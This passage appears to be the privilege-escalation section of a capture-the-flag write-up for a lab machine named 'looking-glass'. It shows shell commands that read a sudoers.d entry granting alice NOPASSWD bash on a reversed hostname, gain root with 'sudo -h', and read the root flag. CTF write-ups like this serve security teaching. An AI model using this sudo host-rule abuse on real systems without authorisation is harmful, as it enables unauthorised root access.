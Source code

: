 ## Privilege Escalation (FINALLY)

Not much here.

```
alice@looking-glass:~$ ls
kitten.txt
alice@looking-glass:~$ cat kitten.txt
She took her off the table as she spoke, and shook her backwards and forwards with all her might.

The Red Queen made no resistance whatever; only her face grew very small, and her eyes got large and green: and still, as Alice went on shaking her, she kept on growing shorter—and fatter—and softer—and rounder—and—


—and it really was a kitten, after all.
```

So let's start enumerating as usual.

Eventually we find that there is a file in `/etc/sudoers.d` for `alice` and it contains a command.

```
alice@looking-glass:~$ ls /etc/sudoers.d
README  alice  jabberwock  tweedles
alice@looking-glass:~$ cat /etc/sudoers.d/alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

This means that `alice` can run `sudo /bin/bash` on the host `ssalg-gnikool`.

Fortunately, `sudo` has a switch for this.

```
alice@looking-glass:~$ sudo -h ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:~# id
uid=0(root) gid=0(root) groups=0(root)
root@looking-glass:~# cat /root/root.txt
<redacted>
```
